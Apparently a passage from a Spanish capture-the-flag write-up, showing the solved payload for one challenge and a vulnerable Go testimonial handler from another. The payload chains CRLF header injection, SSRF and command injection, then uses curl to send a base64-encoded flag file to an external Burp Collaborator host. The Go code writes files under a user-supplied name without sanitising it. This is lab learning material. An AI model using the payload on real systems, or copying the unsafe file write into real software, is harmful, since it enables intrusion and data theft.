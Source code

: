 ```bash 
echo 'cd ..;cd ..;cd ..; cat flag-jqpeei2a5jk8hr8.txt'|sh| base64 -w0
```

Como payload final para leer la flag usé Burp Collaborator para decodear a la vez de base64.

```js
GET /cgi-bin/attack-domain?target=-&name=a%0d%0aLocation:+/a%0d%0aContent-Type:+proxy:http://127.0.0.1/cgi-bin/attack-ip%3ftarget=::1%$(curl%25%32%30cfvekttb0yhbc2ia84d9zkasqjwak68v.oastify.com?p=$(echo%25%32%30%27cd%25%32%30..%25%33%62cd%25%32%30..%25%33%62cd%25%32%30..%25%33%62%25%32%30cat%25%32%30*.txt%27|sh|%25%32%30base64%25%32%30-w0))%260name=%0D%0A%0D%0A 
```

![Collabflag](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/CA2025/image-7.png)

Get the flag. 🎉
HTB{h4ndl1n6_m4l4k4r5_f0rc35}

```go
func (s *server) SubmitTestimonial(ctx context.Context, req *pb.TestimonialSubmission) (*pb.GenericReply, error) {
	if req.Customer == "" {
		return nil, errors.New("Name is required")
	}
	if req.Testimonial == "" {
		return nil, errors.New("Content is required")
	}

	err := os.WriteFile(fmt.Sprintf("public/testimonials/%s", req.Customer), []byte(req.Testimonial), 0644)
	if err != nil {
		return nil, err
	}

	return &pb.GenericReply{Message: "Testimonial submitted successfully"}, nil
}
```

# Eldoria Panel
